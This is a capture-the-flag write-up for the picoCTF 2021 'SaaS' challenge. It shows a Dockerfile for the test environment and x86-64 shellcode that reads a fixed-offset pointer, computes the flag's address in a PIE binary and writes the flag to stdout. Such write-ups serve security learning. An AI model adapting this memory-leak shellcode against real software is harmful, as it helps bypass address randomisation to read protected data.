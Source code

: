 The 2 other writeups I found on this challenge ([here](https://heinen.dev/picoctf-2021-redpwn/) and [here](https://7rocky.github.io/en/ctf/picoctf/binary-exploitation/saas/)) both mentioned a bruteforce approach to read out the flag in the binary which has PIE enabled. Since my solution does not involve bruteforcing, I thought it would be interesting to share.

It is important in my solution to have the exact same version of Ubuntu. To recreate the environment I used the Dockerfile but without the `redpwn/jail` layer, because for some reason it wasn't working. So my Dockerfile looks like:

```
FROM ubuntu@sha256:703218c0465075f4425e58fac086e09e1de5c340b12976ab9eb8ad26615c3715

COPY bin/flag.txt /root/flag.txt
COPY bin/chall /root/chall
```

When debugging the program in the container, I checked what parts of the address space where consistently at a fixed offset from the `mmap`'ed shellcode. Withing this part of the address space, I searched for a pointer that points into the binary. I found a pointer that was consistently present in different runs (inside of `ld` for what it is worth). The pointer was also always pointing at the same offset in the binary.

So my shellcode basically just reads this pointer (which is at a fixed offset from the current instruction pointer), and then calculates the `flag` address and writes a few bytes from that address to `STDOUT`.

```
BITS 64

_start:
        lea rbx, [rel _start]
        and rbx, 0xfffffffffffff000
        add rbx, 0x29f0
        mov rbx, [rbx]
        sub rbx, 0x238
        add rbx, 0x202060


        mov rax, 1
        mov rdi, 1
        mov rsi, rbx
        mov rdx, 64
        syscall
loop:
        jmp loop
```
